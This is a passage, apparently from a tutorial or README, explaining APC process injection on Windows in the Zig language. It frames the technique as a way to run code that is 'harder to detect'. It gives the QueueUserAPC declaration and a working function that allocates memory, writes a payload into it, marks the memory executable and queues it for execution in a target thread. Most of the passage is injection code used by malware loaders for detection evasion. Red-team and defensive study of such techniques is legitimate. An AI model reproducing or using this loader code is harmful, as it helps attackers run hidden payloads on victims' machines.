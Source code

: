     The main advantage of APC injection is that it executes code within the legitimate context of an existing thread, making it harder to detect than creating new threads or processes.

## QueueUserAPC

The `QueueUserAPC` function is the core of APC injection. It adds a user-mode APC object to the APC queue of the specified thread.

```zig
extern "kernel32" fn QueueUserAPC(
    pfnAPC: PAPCFUNC,           // Pointer to the APC function
    hThread: HANDLE,            // Handle to the target thread
    dwData: windows.ULONG_PTR,  // Parameter passed to APC function
) callconv(WINAPI) BOOL;
```

Here's how we use it in our implementation:

```zig
// APC injection function
fn runViaApcInjection(hThread: HANDLE, pPayload: []const u8) bool {
    var dwOldProtection: DWORD = 0;

    // Allocate memory for the payload
    const pAddress = VirtualAlloc(null, pPayload.len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (pAddress == null) {
        print("\t[!] VirtualAlloc Failed With Error : {}\n", .{GetLastError()});
        return false;
    }

    // Copy payload to allocated memory
    @memcpy(@as([*]u8, @ptrCast(pAddress))[0..pPayload.len], pPayload);

    print("\t[i] Payload Written To : 0x{X}\n", .{@intFromPtr(pAddress)});

    // Change memory protection to executable
    if (VirtualProtect(pAddress.?, pPayload.len, PAGE_EXECUTE_READWRITE, &dwOldProtection) == 0) {
        print("\t[!] VirtualProtect Failed With Error : {}\n", .{GetLastError()});
        return false;
    }

    waitForEnter("\t[#] Press <Enter> To Run ... ");

    // Queue the APC - this is where the magic happens!
    if (QueueUserAPC(@ptrCast(pAddress), hThread, 0) == 0) {
        print("\t[!] QueueUserAPC Failed With Error : {}\n", .{GetLastError()});
        return false;
    }

    return true;
}
```
